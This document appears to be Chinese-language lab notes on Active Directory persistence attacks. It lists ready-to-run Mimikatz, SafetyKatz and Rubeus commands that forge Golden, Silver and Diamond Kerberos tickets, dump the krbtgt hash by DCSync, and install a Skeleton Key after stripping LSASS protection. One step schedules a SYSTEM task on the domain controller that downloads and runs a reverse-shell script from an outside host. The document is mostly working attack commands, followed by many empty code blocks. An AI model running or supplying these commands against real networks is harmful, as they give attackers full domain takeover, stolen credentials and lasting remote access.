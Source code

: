 # Golden Ticket（金票）
使用krbtgt的哈希制作金票

## mimikatz
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

## SafetyKatz

拿到krbtgt哈希
```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

制作金票
```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

#  Silver Ticket（银票）

下面例子使用DC的哈希制作一张银票
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:cifs /rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

上面是请求CIFS服务

如果请求HOST服务，就会允许在靶机上设置一个定时任务

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:HOST /rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

设置定时任务
```
schtasks /create /S us-dc.us.techcorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object
Net.WebClient).DownloadString(''http://192.168.100.X:8080/Invoke-PowerShellTcp.ps1''')'"
```
执行定时任务
```
schtasks /Run /S us-dc.us.techcorp.local /TN "STCheck"
```

如果请求WMI服务，则会有远程执行能力


# Diamond Ticket（钻票）
需要krbtgt的AES keys

制作一张钻票
```
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /user:studentuserx /password:studentuserxpassword /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

我们还可以使用 /tgtdeleg 选项代替凭据，以防我们以域用户身份访问
```
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


# Skeleton Key（万能钥匙）

制作万能钥匙，密码是：```mimikatz```
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName us-dc
```

使用万能钥匙（mimikatz）用Administrator身份进入机器
```
Enter-PSSession –Computername us-dc –credential us\Administrator
```


如果 lsass是受保护 ，在mimikatz上使用下面命令提升权限，这个操作会留下日志，不是好的opsec
```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

```

```

```

```

```

```

```

```

```

```

```

```

```

```

```

```

```

```

```

```

```

```


